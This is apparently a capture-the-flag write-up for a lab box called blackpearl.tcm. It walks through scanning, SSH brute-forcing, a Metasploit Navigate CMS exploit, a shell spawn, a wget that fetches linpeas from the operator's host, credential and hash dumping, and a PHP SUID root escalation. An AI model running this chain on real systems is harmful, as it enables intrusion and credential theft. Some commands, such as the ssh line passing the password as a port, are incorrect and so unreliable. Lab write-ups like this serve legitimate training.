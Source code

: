 **nmap -A -p- 192.168.86.199**
   'PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) 
    | dns-nsid:
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
    80/tcp open  http    nginx 1.14.2 ****
    |_http-title: Welcome to nginx!
    |_http-server-header: nginx/1.14.2
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel'
---
**ffuf - No good**
---
**HTML**
    'http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>'
---
**Gobuster**
'gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"'
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
       <This message is here so that you don't waste more time directory busting this particular website.>'
---
**Hydra**
'hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199 '
---
**DNSRECON**
'dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra (-d is domain && any domain is required) #**Virtual Host Routing**
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
        [+] 	 PTR blackpearl.tcm 127.0.0.1
        [+] 1 Records Found'
   
1. **sudo vi /etc/hosts**
        <ip>    blackpearl.tcm
        http://blackpearl.tcm
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    **Always google new environment**
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        msfconsole use use exploit/multi/http/navigate_cms_rce
                set domain - blackpearl.tcm : run
 2. **meterpreter > shell:**
        'python -c 'import pty;pty.spawn("/bin/sh")''
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' # upload privecs
 3. **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'mysql -u alek -p (pw H4x0r)'  #**Success**
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                    alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677'
 4. **ssh alek@<ip> -p H4x0r**:: **Success**
            'find / -perm /6000 2</dev/null' ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            '/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"'  # **Success**
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box \ 
                             is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'

                    
